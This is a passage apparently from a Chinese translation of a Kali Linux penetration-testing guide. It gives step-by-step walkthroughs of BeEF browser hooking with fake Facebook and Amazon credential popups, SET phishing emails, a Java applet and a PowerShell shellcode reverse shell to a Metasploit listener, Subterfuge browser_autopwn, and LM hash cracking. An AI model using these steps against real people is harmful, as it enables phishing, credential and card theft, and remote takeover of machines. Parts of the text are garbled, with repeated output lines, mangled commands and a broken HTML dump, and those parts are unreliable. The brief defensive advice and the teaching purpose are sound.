    

文件将被上传到 Xplico，几秒钟到几分钟后（取决于你的 Pcap 文件大小），你将看到如下结果：

| HTTP | MMS | Emails (邮件) |
| --- | --- | --- |
| Post: 25 | Number: 0 | Received: 0 |
| Get: 471 | Contents: 0 | Sent: 0 |
| Video: 2 | Video: 0 | Unread: 0/0 |
| Images: 247 | | |

| Facebook Chat/Patalk | IRC/Patalk ExpMsn | Dns - Arp: Icmp4 |
| --- | --- | --- |
| Users: 0 | DNS res: 225 | |
| Chats: 0/0 | Server: 0 | ARP/ICMP6: 37/4 |
| | Channels: 0/0 | |

| Feed (RSS & Atom) | Printed Files (打印文件) | Telnet/Syslog |
| --- | --- | --- |
| Number: 0 | Pdf: 0 | Connections: 0/0 |
| | | |

现在，如果我们点击 Web 菜单下的 sites，我们将看到目标访问过的网站列表：



由于由于是目标，正在搜索 Dell 网站寻找关于 Powervault 磁带备份单元的信息。他们访问了 Google，然后访问了 Dlink 支持网站，寻找 Dir-615 路由器的支持信息。

即使没有通过 Xplico 恢复任何网络信息、账户信息或密码，你也可以使用 Web 标签页收集可用于社会工程学攻击的信息。

例如，我注意到浏览的网站中有几个是 NHL（冰球联盟）网站。我可以在数据流中搜索特定术语，在本例中为 NHL：



或者查看图像：



显然该用户是一个冰球粉丝。我可能从他的浏览记录中恢复他喜欢的球队，并再次将此用于社会工程学攻击。

# 总结

在本节的第一部分中，我们学习了如何使用中间人攻击程序 Arspoof，结合 Urllsnark 和 Driftnet 来查看目标本地系统正在查看的网站。

在第二部分，我们学习了如何将一个被攻击的系统变为……

使用这些命令，我们可以从受害者的浏览器中获取信息，甚至更改他们看到的内容。

例如，如果我们想尝试对他们进行社交工程攻击并获取他们的 Facebook 凭据，可以进入 Social Engineering（社交工程）选项卡并点击“Pretty Thief”。然后点击“Execute”（执行）。

受害者的浏览器上会弹出一个窗口：



噢不！用户的 Facebook 会话超时了！

如果用户填写凭据并点击“Log in”（登录），这将出现在 BeEF 控制面板中：

```
data: Sat Jun 29 2013 16:48:32 GMT-0400 (EDT)
answer=testuser@test.com ILuvSecurePasswords!
```

用户名：`testuser@test.com`，密码：`ILuvSecurePasswords`！

我们还可以尝试这种看起来像 Amazon 的攻击来获取信用卡号：

您的卡详情已过期，请输入新的信用卡凭据以继续购物。

更改您的付款方式不会影响您已经下过的订单。

您的账户-添加信用卡或借记卡

编辑您的付款方式：

持卡人姓名：

过期日期：

卡号：

## BeEF 的功能远不止弹窗

你可以获取受害者所在网页的 HTML 代码：

```text
1 Tue Jul 02 2013 21:24:08 GMT-0400 (EDT)

data: head<meta http-equiv="content-type" content="text/html; charset="UTF-8"><title>BeEF Project</title><link rel="stylesheet" href="style.css"><body style="margin:0; padding:0;"><iframe style="display:none; background-color:white; width:100%; height:100%; position:absolute; top:0; left:0;" src="http://www.beefproject.com/"><script src="jquery-1.5.min.js"></script><script>function friends(){$(document).on('click',function(){showhamper()});$(document).hide().show(hamper());var command=modlSrc;<script src=""+window.protocol+window.location.host+"/hook.js" type="javascript/javascript"></document.write(command(modlSrc));<script src="http://192.168.1.102:8080/hook.php" type="text/html"><div id="content">Awesome Beef images from: http://www.flickr.com/photos/delete/465764804/jpg and http://www.flickr.com/photos/delete/395443219/jpg - "logo"><div class="banner">欢迎来到屠夫店！您的肉类来源。请随时查看我们的样本，订阅我们的邮件列表或购买我们的特色牛肉礼篮！div>div class="normal"><button type="button">我们的肉类朋友!</button><button type="button">Your Pie-execute command
```

然后实时更改页面上的任何链接，而用户完全毫无察觉，将其指向你想让受害者去往任何地方。

我们假设受害者处于一个纽约巨人队的橄榄球页面，即使他们来自纽约（而我们不是），而且我们希望他们在点击任何链接时都会被重定向到达拉斯牛仔队的主页。

以下是将页面上所有链接更改为达拉斯牛仔队网站后的网页源码：

```text
data: head<meta http-equiv="Content-Type" content="text/html;
<a href="http://dallascboys.com/">/Slash</a>
<a href="http://dallascboys.com/">/Dallas</a>
<a href="http://dallascboys.com/">hackers.org homepage</a>
```

当然，攻击者通常不会将他们引导到体育网站，而可能是一个恶意网站，或者是 Amazon 或 Facebook 的完全伪造。

你还可以发送自定义的 JavaScript，甚至将其与 Metasploit 结合来尝试获取远程 shell。

你可以看到，攻击者控制浏览器的后果是非常糟糕的。

## 结论

BeEF 是一个非常有趣的交互工具，一旦你掌握了它，就相当容易使用。

攻击根据其成功的几率进行了颜色标记。你可能仍然想要尝试它们，因为我注意到某些看起来不起作用的代码在偶尔似乎是有效的。

我还注意到较新的浏览器似乎停止了某些攻击，但 XP 系统对于哪些攻击对其有效仍然非常开放。

我尝试在运行最新 Firefox 浏览器的 Windows 7 系统上执行这些完全相同的攻击，没有任何显示：



创建了一个钩（hook），但只持续了一秒或两秒就被丢弃了。

针对此类攻击的最佳缓解措施似乎是最新的 Windows 操作系统和浏览器版本。如果可以，请更新或替换您的 Windows XP 系统，特别是当它们连接到网络时。

Windows 7 和 8 的基础安全性要比 Windows XP 好得多。

最后，始终运行脚本拦截插件（如 Firefox 插件“NoScript”），不要点击或打开未自来邮件和社交媒体中的链接及附件。

## 社交工程

### 简介

社交工程（Social Engineering）是操纵他人以获取信息或访问权限的艺术。它是通过心理操纵使人们执行操作或泄露机密。

社交工程攻击有许多类型，最常见的包括：

- 网络钓鱼（Phishing）：这是最常见的社交工程类型。攻击者发送伪装来自可靠来源的欺诈邮件来窃取敏感信息。
- 鱼叉式钓鱼（Spear phishing）：这是一种针对性的钓鱼，攻击者针对特定的个人或组织。
- 捕鲸攻击（Whaling）：这是一种针对高层高管（如 CEO、CFO 和 COO）的鱼叉式钓鱼攻击。
- 假借攻击（Pretexting）：在假设攻击中，攻击者创建一个虚构的场景来获得受害者的信任。
- 尾随（Tailgating）：发生在攻击者跟随授权人员进入限制区域。
- 诱饵（Baiting）：这涉及在公共场所留下受感染的设备（如 USB 盘），让有人捡到。
- 等价交换（Quid pro quo）：这涉及攻击者提供服务或利益以换信息或访问权限。
- 基于社交媒体的攻击：这是利用社交媒体平台收集目标信息并构思具有说服力的攻击的手段。

以下是一些社交工程的例子：

- 你是某大公司的 CEO。某天，你收到了一个来自业务伙伴公司的包裹。那是感谢你们合作的礼物。你打开发现里面有一个平板电脑和一张说明。
- 你收到一封来自公司 IT 经理的邮件。他们正在安装软件并需要一些新的驱动程序。他们将软件包作为附件包含在内并提供了完整的安装指南。你照做了。这封邮件并非来自你的 IT 经理，你只是被远程黑客完全控制了工作站。
- 你在食堂。一名攻击者穿着衬衫带，带着夹板走向你。他说正在进行升级并需要访问你的系统。你让他进入。
- 你在进入办公大楼的路上。攻击者跟随授权人员进入限制区域。你让他进入。
- 诱饵：这涉及在公共场所留下受感染的设备（如 USB 盘），让有人捡到。有人捡起并插入了电脑。

### 资源

- `http://www.socialengineer.org/`

## 社交工程防御

话虽如此，培训员工以警惕此类攻击是关重要的。建立政策来处理服务电话、软件更新和来自外部公司的礼品。

你可以教学、指导，甚至留下提醒信息和海报，但员工可能仍然不遵守政策。因此，当涉及到社交工程攻击时，最好的办法是手动测试，看看你的公司是否真的准备好了。

# 第14章 – 社会工程工具包（SET）

## 引言

社会工程攻击是当今针对网络的最有效技术之一。为什么要花费几天、几周甚至几个月来尝试渗透层层网络安全，而你只需要欺骗用户运行一个文件，即可获得其机器的权限并绕过杀毒软件、防火墙和许多入侵检测系统？

这在今天最常用于钓鱼攻击：编写封电子邮件或创建一个虚假网站，诱骗用户运行恶意文件，从而在他们的系统中创建后门。但作为一名安全专家，你该如何针对你的网络进行这种测试呢？这种攻击有效吗？你又如何防御？Kali 包含了最流行的社会工程工具包之一——社会工程工具包（Social Engineering Toolkit, SET）。该团队非常活跃，总是在添加新功能，这使其成为了一个非常健壮的工具。

在本章中，我们将查看 SET 包含的一些工具以及两种攻击选项（都是基于 PowerShell 的攻击）。

## 启动 SET

从 Kali 主菜单启动 SET：`Linux > Exploitation Tools > Social Engineering Toolkit`

## 批量邮件发送器（Mass Emailer）

社会工程师攻击网络的一种方法是向大量地址发送大量邮件，看看谁会回复或运行随附的恶意附件。SET 自带了批量邮件发送器（Mass Emailer），选择“Engineering Attacks”（工程攻击）。

批量邮件发送器有两个选项，第一个是向某个人发送电子邮件。第二个选项允许你导入列表，并将其发送给列表中的任意人数。你想执行什么：

1. 邮件攻击（Email Attack）
2. 批量邮件发送器（Mass Mailer）
3. 返回主菜单

在这个示例中，我们只发送一封。

1. 使用 Gmail 账户发送邮件。
2. 使用你自己的服务器或中继。
3. 输入目标地址：
4. 接下来选择使用 Gmail 账户或其他服务器。
5. 现在选择用于邮件“发件人”行的行的伪造名称：
6. 接下来 SET 会询问你的账户密码。
7. 在提示“将此消息标记为高优先级吗？”时输入“yes”。
8. 接下来输入邮件主题。
9. 在提示“以 html 还是纯文本格式发送消息？”时输入“P”。

```text
set phishing> MrCEO@SomeDomain.com
set phishing> Important Update
set phishing> ITDepartment@SomeDomain.com
set phishing> EvilHacker@EvilDomain.com
set phishing> 1
set phishing> Your email address:
set phishing> 2
set phishing> 3
set phishing> 4
set phishing> 5
set phishing> 6
set phishing> 7
set phishing> 8
set phishing> 9
set phishing> 10
```

现在输入虚假信息，最好是那种能诱导我们的受害者点击恶意链接的消息。在实际防御中，这可以只是一个网页，记录下欺骗访问该页面的用户的 IP 地址。这样，作为安全团队，我们就知道组织需要加强对邮件风险的教育了。完成后，输入“END”。

## SET JavaInjector 攻击

上面的消息显然是虚假的，但类似这样的（配上更可信力的内容）可以用来测试员工检测、抵抗和报告钓鱼尝试的能力。到目前，我们只是发送了一封可能将某人引导到虚假网站的假邮件。但如果我们制作一个提供带有陷阱脚本的虚假网站呢？如果用户允许脚本运行，是否能与用户创建一个远程 shell 呢？


`JavaInjector`攻击利用了基于 `PowerShell` 的攻击绕过杀毒软件的能力并结合 `Java` 程序。我们将使用 `SET` 创建一个虚假网站提供带有陷阱的 `Java` 程序。如果用户允许程序运行，我们就获得了系统的远程会话。在本示例中，我们将使用 `Windows 7` 系统作为“目标”。

从 `SET` 主菜单：

- 1. 选择 1，“Social-Engineering Attacks”（社会工程攻击）。
- 2. 接下来选择 2，“Website Attack”（网站攻击）。
- 3. 然后选择 1，“Java Applet Method”（Java Applet 方法）。

这将创建一个带有后门 `shell` 的 `Java` 程序。这里还有其他可选的攻击选项。`Metasploit` 攻击使用 `Metasploit` 浏览器漏洞攻击客户端系统。`Credential Harvester`（凭据收割器）攻击非常巧妙，因为它会克隆现有网站（如 `Facebook`），然后存储输入到其中的任何凭据。`TabNabbing` 如果客户端打开了大量浏览器窗口时效果非常好，它会等待一段时间，将其中一个标签页切换到 `SET` 创建的页面。`Web-Jacking`（网页劫持）攻击使用 `iframe` 替换使恶意链接看起来合法。最后，`Multi-Attack`（组合攻击）结合了上述几种攻击。

- 4. 接下来选择 1，“Web Templates”（网页模板）让 `SET` 创建一个通用网页。或使用选项 2，“Site Cloner”（站点克隆）允许 `SET` 使用现有网页作为攻击网页的模板。
- 5. `NAT`/端口转发 – 根据你的系统是否使用不同的外部 `IP` 地址选择 `yes` 或 `no`。通常如果使用内部测试实验室，选择“no”足够了。
- 6. 输入你的 `SET` 机器的 `IP` 地址。如果不确定 `IP` 地址，可以打开另一个终端窗口输入“`ifconfig`”。
- 7. 选择模板 - 现在选择 1，“Java Required”（需要 Java）。注意其他可用选项。
- 8. 选择你交付的有效负载（`payload`），我通常选择 14，“ShellCode Alphanum Shellcode”（字母数字码，这很有趣，因为它从内存运行，从不接触硬盘，可以有效绕过某些杀毒软件）或 15，“PyInjector Shellcode”。现在我们直接使用选项 15，“PyInjector Shellcode Injection”，并使用默认端口 443。
- 9. 接下来选择要注入的负载，让我们选择第一个选项，“Windows Meterpreter Reverse TCP”。

现在 `SET` 已已准备就绪并执行几项操作。它创建并加密 `PowerShell` 注入代码、创建网站、加载 `Metasploit` 并启动等待连接的监听服务。完成后，你的屏幕看起来像这样：

```
# Preparing pyinjector for delivery...
# Preparing website for pyinjector shellcode injection...
Base
# Preparing pyinjector for delivery...
# Preparing website for pyinjector shellcode injection...
Base
# Preparing pyinjector for delivery...
# Preparing website for pyinjector shellcode injection...
Base
# Preparing pyinjector for delivery...
# Preparing website for pyinjector shellcode injection...
```

```
msfexploit (handler) - sessions - 1
[*] Starting interaction with 3...
meterpreter > shell
Process 3316 created.
Channel 1 created.
Microsoft Windows (Version 6.1.7601)
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Client\Desktop\
```

连接成功后，你可以使用任何内置的 `Meterpreter` 命令，或者使用 `Linux` 命令来浏览远程电脑，或者简单地运行 "`shell`" 即可获得一个远程窗口命令行 `shell`：

```
msfexploit (handler) - sessions - 1
[*] Starting interaction with 3...
meterpreter > shell
Process 3316 created.
Channel 1 created.
Microsoft Windows (Version 6.1.7601)
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Client\Desktop\
```

就是这样，受害者只要犯一个错误选择，正如你看到的，我们就获得了一个完整的远程会话。

# 社会工程工具包：PowerShell 攻击者向量

基于 `Java` 的 `PowerShell` 攻击非常强大，但如果目标没有运行 `Java`，或者我们无法诱骗他们访问我们的 `SET` 页面怎么办？另一种社会工程尝试是诱骗用户运行我们发送给他们的文件。

因此，让我们来看看如何创建一个 `PowerShell` `shellcode` 文件并将其发送给目标。如果我们能诱骗目标运行 `shellcode`，或者让它自动运行，我们就能获得与该机器的远程连接。

在本节中，我们使用 `SET` 的 `PowerShell` 攻击者向量来创建一个 `PowerShell` 脚本，该脚本在目标系统运行时将回连到我们的 `Kali` 系统并为我们的系统创建一个远程 `shell`。我们还将设置 `SET` 来寻找这些入站连接。

- 1. 启动 `SET` 并选择选项数字 1，“Social-Engineering Attacks”（社会工程攻击）。
- 2. 选择选项 10，“PowerShell Attacker Vector”（PowerShell 攻击者向量）。


- 3. 选择下一个数字 1，“PowerShell Alphanumeric Shellcode Injector”（PowerShell 字母数字 shellcode 注入器）。
- 4. 现在只需输入 `Kali` 系统的 `IP` 地址以及你想用于反向连接的端口-

最后 `SET` 会询问你是否想要创建监听器服务，当受害者运行代码时，`SET` 将准备好接受远程连接。在提示符处输入 "`yes`"。

```
# IP address for the listener: 192.168.1.226
>powershell Enter the port for the reverse [443]
# Preparing the payload for delivery, and injecting alphanumeric shell...
# Generating x86-based payload...
# Encoded to bypass execution restriction...
# If you want the payload commands and attack, they are exported to /root/set/reports/
# Do you want to start the listener now [yes/no]: : yes
```

`SET` 现在会创建利用代码，如果你选择了启动监听器，它会在 `Metasploit` 中启动监听器服务并等待入站连接：

```
/ Processing /root/set/reports/powershell.rc for ERB directives.
resource(/root/set/reports/powershell.rc) use multi/handler
resource(/root/set/reports/powershell.rc) set payload "windows/meterpreter/reverse_tcp"
> use windows/meterpreter/reverse_tcp> set lport 443
lport = 443
resource(/root/set/reports/powershell.rc) set LHOST 0.0.0.0
resource(/root/set/reports/powershell.rc) set exploit
> exploit
Establishing reverse handler on 0.0.0.0:443
[*] session 1 opened (more you are to hear)
```

现在我们只需要将利用代码发送到受害者系统。`SET` 会创建利用代码并将其放入 "`/root/set/reports/powershell/`" 目录。

保持 `SET` 窗口打开并打开另一个终端 `shell`。

导航到 `powershell` 目录，你将在文本文件中看到 `PowerShell` 注入代码，在我们的示例中是 "`x86_powershell_injection.txt`"。

你可以使用 "`cat`" 命令文件来显示其内容：


```text
root@kali:~# cd /root/set/reports/powershell/
root@kali:~# ls
root@kali:~# cat /root/set/reports/powershell/x86_powershell_injection.txt
powershell -nop windows -hidden -nonenc 

Microsoft Windows [Version 6.1.7601] Copyright (C) 2009 Microsoft Corporation. All rights reserved. C:\Windows\System32\cmd.exe
```

如果 Windows 系统运行该代码，将会会话连接到你的 Kali 机器。

一旦按下回车键，Kali 机器上就会创建一个远程会话：


与之前的教程一样，一旦会话打开，我们可以使用任何 Meterpreter 或 Linux 命令，或者只需输入`shell`来获取远程命令行提示符。

# 替代选项

虽然大多数用户不会将文本文件复制并粘贴到命令行提示符并执行它，但对于可能获得远程命令行提示符并想要使用完整 Meterpreter shell 的渗透测试人员来说，这种方法非常好。

此外，网络上还有几个教程说明如何将生成的 SET PowerShell 文本文件转换为可执行的`.exe`文件。

基本上，你将文本文件转换为批处理文件，然后使用`.bat`到`.exe`转换器将文件更改为执行文件。

我把这个练习留给读者。

或者你也可以简单地使用程序`Veil`（参考“使用 Veil 绕过 AV”章节），它的功能基本相同。

## 结论

现在几乎每个 Windows 机器上都有 PowerShell，而且许多杀毒软件无法检测这类攻击，使得它们非常强大。如下所示，我将 PowerShell 注入代码上传到 VirusTotal，它没有检测到任何恶意：


# 使用 SET 进行更高级的攻击

花点时间研究 SET，并查看它为攻击目标系统提供的许多选项。

你可以使用 SET 创建恶意的 CD/DVD 和 USB 介质（用于创建恶意介质并留在公司停车场等）、一系列基于 Arduino 的攻击、Microsoft SQL 暴力破解器、无线访问点攻击、批量邮件发送器、QR 攻击以及我们未涵盖的网站社会工程攻击。

Fast Track 菜单下的 SCCM 向量对于任何使用 PXE 启动和公司镜像的企业特别重要。有关 SCCM 的完整概述，请参阅：

> http://www.trustedsec.com/files/Owning_One_Rule_all_v2.pdf

社会工程工具包（Social Engineering Toolkit）对于任何企业安全测试团队来说都是非常强大且功能丰富的工具。

# 第 15 章：欺骗

## 使用 Subterfuge 进行自动浏览器攻击

在本节中，我们将继续讨论社会工程类型的攻击。我们将使用一个名为 Subterfuge 的程序创建一个伪造 Web 服务器，它可以攻击任何尝试连接到我们的浏览器。

这模拟了黑客通过让用户访问恶意网站来获取目标机器的方法。一旦客户端访问此 Web 服务器，Subterfuge 就会在客户端通过 Metasploit 框架的 Browser AutoPwn 模块自动运行一系列浏览器攻击。

如果其中一个（或多个）攻击成功，我们通常会获得客户端系统的完整远程命令 shell（`shell`）。

## 让我们开始吧

首先，我们需要安装 Subterfuge。

Subterfuge 是 Backtrack 平台移除的程序之一。它存在于 Backtrack 5 中，但在切换到 Kali 时被移除，很可能是因为 Kali 中有其他具有类似功能的程序。从在线论坛来看，Subterfuge 可能会在某个时候重新添加。但安装过程并不困难。

让我们下载 Subterfuge：

1. 下载 Subterfuge（http://code.google.com/p/subterfuge/downloads/list）


2. 将其保存到根目录。

现在使用`tar -xvf`命令解压文件。

```bash
root@kali:~# ls

Desktop SubterfugePublicBeta5.0.tar.gz

root@kali:~# tar -xvf SubterfugePublicBeta5.0.tar.gz
```

现在进入 Subterfuge 目录并使用 Python 安装：

```bash
root@kali:~# cd subterfuge/

root@kali:~/subterfuge# sudo python install.py
```

将出现图形化安装界面。点击“Full Install with Dependencies”（带依赖的完整安装），然后点击“Install”（安装）：


安装程序完成后，点击“Finish”（完成）。

```text
subterfuge/sslstrip.svn/text-base/db.svn-base

subterfuge/sslstrip.svn/text-base/DnsCache.py.svn-base

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge

subterfuge/sslstrip.log

Installation Complete

* - 你越安静，你听到的就越多
```


9. 现在运行 Subterfuge：

```bash
root@kali:~# subteruge cd

root@kali:~# subteruge
```

8. 现在你会看到一个显示服务器已启动并运行的屏幕。


9. 现在打开 Iceweasel 并访问`127.0.0.1:80`。你将看到 Subterfuge 的主界面：


注意这里有一个显示用户名和密码的地方，一个 Modules（模块）和 Settings（设置）菜单以及一个 Start（启动）按钮。

在 Modules 菜单下可以找到多种我们可以执行的攻击。通过 Settings 菜单修改 Subterfuge 的功能，Start 则启动一种攻击。

## Browser Autopwn

让我们尝试 Browser_Autopwn 攻击。Subterfuge 会启动一个恶意服务器并加载大量不同的客户端攻击，并将它们用于对任何尝试连接的客户端。

- 点击“Modules”菜单。
- 点击“HTTP Code Injection”图标。
- 我们将看到插件设置（Plugin Settings）。保持默认的“browser_autopwn”和“IFrame Injection”并点击“Apply”。


4. Subterfuge 自动打开 shell 窗口并启动 Metasploit。


```text
sh

Using MSF Directory: /pentest/metasploit-4.2.0/msf3/

Creating Metasploit Resource File...

Exploit => use server/browser_autopwn

Server IP => 192.168.1.131

URIPATH => set uripath

Server Port => set 8080

File Created! Building injection... Serving Metasploit...
```

5. Metasploit 攻击已加载并准备就绪：

```text
Using URL: http://0.0.0.0:8080/

Local IP: 192.168.1.131

[*] Server started,

[*] Starting exploit/browser/java_jre17_bean with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080/

Local IP: 192.168.1.131

[*] Server started,

[*] Starting exploit/browser/java_jre1_method with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080/

Local IP: 192.168.1.131

[*] Server started,

[*] Starting exploit/browser/java_jre17_provider_skeleton with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080/

Local IP: 192.168.1.131

[*] Server started,

[*] Starting exploit/browser/java_reflection_types with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080/

Local IP: 192.168.1.131

[*] Server started,
```

过一会儿，你会看到一个屏幕显示：

```text
[*] Done, found 64 exploit modules

[*] URL: http://0.0.0.0:8080/

Local IP: 192.168.1.131

[*] Server started.

Found 64 exploits
```

这意味着这意味着 Subterfuge 拥有 64 种不同的攻击用于有人连接 Kali。

6. 如果受害者访问我们的 subterfuge 网页（来自 Windows 7 系统），browser_autopwn 攻击就会启动并自动向浏览器发射大量攻击，如下：

```text
192.168.1.132 browserautopown - Handling '/'
192.168.1.132 browserautopown - Handling '/favicon.ico'
192.168.1.132 browserautopown - Handling '/404/favicon.ico'
192.168.1.132 browserautopown - Handling '/sessionid=Twi,jcm2bcb2b201FdpdbM0WpeB1M0QZ4mMGB2K0L1URDCA6SDDdefineduser:8cME:0 - JavaScript Report: Windows 7:un
192.168.1.132 java_atomicreferencearray - Sending JavaAtomicReference with 52 exploits Vulnerability
192.168.1.132 java_atomicreferencearray - Generated jar to drop (5489 bytes).
```

7. 查看是否有效，我们可以运行`sessions`命令：


你可以看到攻击能够打开三个活动远程会话！

让我们选一个看看是否真的有效。我们将使用 session 1，只需输入“sessions -i”和所需的 session id。


起作用了。如上所示，我也输入了`shell`来打开远程提示符。

## 结论

在本节中，我们使用 Subterfuge 执行了自动浏览器攻击。Subterfuge 创建了一个伪网站，启动了 Metasploit 并运行了“Browser Autopwn”模块生成 64 种可能的攻击。当客户端连接时，Metasploit 对我们的受害者尝试了多次客户端攻击，并创建了三个完整的远程 shell 连接。

在现实生活中，你可能需要对目标进行社会工程，通过电子邮件链接或电话对话说服他们访问 Subterfuge 站点。

这是 Subterfuge 可以实现的功能之一。你还可以执行其他几种攻击，包括中间人类型的攻击。花些时间尝试不同的选项看看你可以做什么。

# 第五部分：密码攻击

## 第 16 章：破解简单的 LM Hash

## 引言


微软对 `Windows XP SP3` 和 `Office 2003` 的支持将于 2014 年 4 月 8 日正式结束。根据某些报告，在仅剩一年支持的情况下，几乎 40% 的计算机用户仍在使用。

这是一个仍在业务关键位置使用的巨大 `Windows XP` 系统数量。计算机并不以明文存储密码，而是以加密形式存储。计算机加密密码有多种不同方法。最安全的方法之一包括对密码加“盐值”（`Salting`）。基本上这意味着使用一个数字（或盐值）并将其纳入哈希过程中，以确保没有两个密码是相同的。

如果不使用盐值（如 `LM` 系统所示），基本上使用相同密码的用户将具有相同的哈希值。因此，你只需要获取哈希值并与已知哈希值进行比较，如果匹配，你就得到了密码！

许多 `Windows XP` 系统使用 `LM Hash` 来保护密码。这是一种非常老且过时的密码哈希存储方法。这种哈希过程是在 `Windows NT` 之前创建的。

基本上在运行 `LM Hash` 的系统中，任何 14 个字符或更少的密码都会转换为全大写，然后拆分为两个七字符的密码。每个部分会被加密并组合成最终的哈希值。

再次，没有盐值，因此如果你能从系统中获取 `LM Hash`，你只需要与已知哈希进行查找表对比即可获得实际密码。

典型的 `Windows` 哈希如下：

```
ac93c8016d14e75a29b76bb9e2cbb6:8516cd0838d1a4fd1ac3e8eb9811350
```

`LM Hash` 在冒号左侧，`NHash` 在右侧。

## 在线破解 LM 密码

有几个网站允许你输入 `Windows LM Hash`，它将返回所使用的密码（如果它在查找表中）。

瑞士公司 `Objectif Sécurité`（`Ophcrack` 的创建者）开发了一种在 `SSD` 设备上使用彩虹表的破解技术。他们提供了该技术的在线演示，可以在几秒钟破解许多 `LM` 密码。

这里是来自 `XP` 机器的管理员密码哈希：

`Hash`：`aad3b43b5b1404ceaad3b43b5b1404ee:31dccfe0d16ae931b73c59d7e0c089c0`

将此哈希通过我们的工具放入 `Objectif crack` 中：


看起来管理员没有设置密码，这不太妙……

好吧，那个不是 14 个字符，让我们试试一个复杂的。

`Hash`：`17817c9fb9d272af44df1cb95cae33:6bcec2ba2597f0891987935afea300d4`

结果如下：


哇！只花了 4 秒，而且还是一个不错的密码。

让我们尝试另一个包含更多特殊字符的：


最后：

`Hash`：`747747dc6e24578d18aeb7cab71d6:43c6cc2170b7a4ef851a62ff15a60555`


非常令人深刻，在这次测试中仅用了四到七秒就破解了几个 14 位字符的复杂密码。

诚然，这些是 `Windows LM` 哈希，而不是更安全的 `Windows 7/Server 2008` 基于 `NTLM` 的哈希。

但我相信，随着破解速度的提高，仅仅依靠密码可能不再是一个良好的安全措施了。许多公司和政府机构正在从仅使用密码转向使用双重认证方法。

生物识别和智能卡在安全设施中正变得越来越流行。

## 不确定你的是哪种哈希？

有几种不同类型的哈希。有时你可能获取到密码哈希，但可能无法确定它的类型。`Hash ID` 会识别你提供的哈希类型。

只需运行 `Hash ID` 并输入哈希即可。

